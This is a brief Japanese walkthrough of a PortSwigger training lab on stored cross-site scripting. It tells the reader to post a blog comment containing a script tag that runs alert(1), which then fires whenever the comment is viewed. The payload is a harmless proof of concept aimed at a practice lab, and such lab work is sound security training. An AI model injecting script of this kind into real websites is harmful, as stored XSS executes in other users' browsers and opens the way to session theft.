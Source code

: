 # 何もエンコードせずに XSS を HTML コンテキストに保存

以下のハッキングラボを実施します
https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded

- 1. ハッキングラボにアクセスします
- 2. ブログのコメント欄に以下のコメントを残します

```html
<script>
  alert(1);
</script>
```

コメントを見る度にアラートが表示されるようになります
